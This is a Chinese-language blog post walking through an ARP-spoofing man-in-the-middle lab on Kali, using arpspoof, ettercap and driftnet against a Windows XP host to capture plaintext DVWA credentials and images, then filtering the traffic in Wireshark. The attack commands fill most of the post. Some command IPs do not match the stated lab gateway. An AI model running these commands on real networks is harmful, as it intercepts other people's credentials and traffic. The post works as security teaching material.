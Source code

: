 ```yaml
---
layout:     post
title:      arp欺骗
subtitle:   arpspoof+ettercap+driftnet
date:       2019-05-26
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - spoof
    - arp欺骗
    - arp嗅探
    - 内网渗透
---
```


# arp欺局

**arp欺骗是在局域网环境下，会碰到且门槛极低，危害又高的一种攻击方式，这里做一个简单复现，仅供学习参考！**

### 实验环境：

* **kali**  IP：192.168.43.138
* **winXP ** IP：192.168.43.188
* **Metasploitable**  IP：192.168.43.149
* **网关**  IP：192.168.43.1

`在arp欺骗的过程中，攻击机通过欺骗，将被攻击机的数据包截获，如果开启了ip转发，则会再转发给网关或者目标ip，这样就不会断网，如果不开启ip转发，截获数据包之后没有返回则会造成断网`

### 第一步：

* 首先在攻击机kali上开启ip转发

  * `echo 1 >/proc/sys/net/ipv4/ip_forward` 如果设为0则不转发，造成断网

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526224838.png)

### 第二步：

* 使用arpspoof指定eth0这块网卡，将自己伪装成ip为192..168.43.1的网关，欺骗ip为192.168.43.188的winxp

  * `arpspoof -i eth0 -t 192.168.43.188 192.168.1.1`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225327.png)

* 上述只是单方面欺骗网关，一般情况下都是双向欺骗（欺骗网关我是xp，欺骗xp我是网关）

  * `arpspoof -i eth0 -t 192.168.43.188 192.168.1.1 -r`使用-r参数即可

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225550.png)

### 第三步：

* 使用winxp访问msf的ip，并登陆dvwa

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225646.png)

### 第四步：

* 使用ettercap攻击截获eth0网卡中传输数据包中的明文账号密码信息

  * `ettercap -Tq -i eth0`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225856.png)

* 使用driftnet截获eth0网卡传输中的的图片

  * `driftnet -i eth0`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230038.png)

  * 可以看到截获的明文账号密码信息

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230355.png)

  

  * 在xp上访问图片网页

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230052.png)

  * 在kali上driftnet的图片查看工具上可以看到截获的图片

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230220.png)

### 第五步：

* 当然也可以使用wireshark查看截获到所有数据包的详细数据信息以做分析

  * `http && ip.addr==192.168.43.188` 使用过滤的相关参数，过滤掉多余的信息

    > 关于wireshark的过滤语法，回头找机会单写一篇详细些的文章

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230751.png)

  * 查看POST包中的信息

  ​              ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230917.png)

  * 可以看到数据包中的详细账号密码信息

